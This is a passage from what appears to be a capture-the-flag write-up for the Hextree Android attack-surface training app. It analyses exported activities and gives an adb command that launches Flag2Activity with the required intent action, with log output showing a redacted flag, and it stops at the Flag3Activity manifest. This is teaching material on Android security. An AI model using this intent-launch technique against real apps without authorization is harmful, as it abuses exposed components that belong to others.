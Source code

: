 
# Flag2Activity

```java
<activity
    android:name="io.hextree.attacksurface.activities.Flag2Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
    </intent-filter>
</activity>
```

This one is different. We have an `intent-filter` with an action name, which means the activity is also implicitly exported.

```java
protected void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    this.f = new LogHelper(this);
    String action = getIntent().getAction();
    if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
        return;
    }
    this.f.addTag(action);
    success(this);
}
```

Here, the activity waits for an intent using `getIntent()` and checks if the action is either `null` or **NOT** equal to `io.hextree.action.GIVE_FLAG`.

- If the condition is `true`, it returns nothing.
- If the condition is `false`, it calls the `success()` method.

Again, we can use the `adb` command to trigger this activity:

```bash
adb shell am start -n io.hextree.attacksurface/.activities.Flag2Activity -a io.hextree.action.GIVE_FLAG
```

- `a`: Specifies the action name.

```bash
03-01 15:11:08.432  3417  3417 I Flag2   : success() called!
03-01 15:11:08.442  3417  3417 I Flag2   : HXT{xxxxxx}
```

---

# Flag3Activity

```java
<activity
    android:name="io.hextree.attacksurface.activities.Flag3Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
```
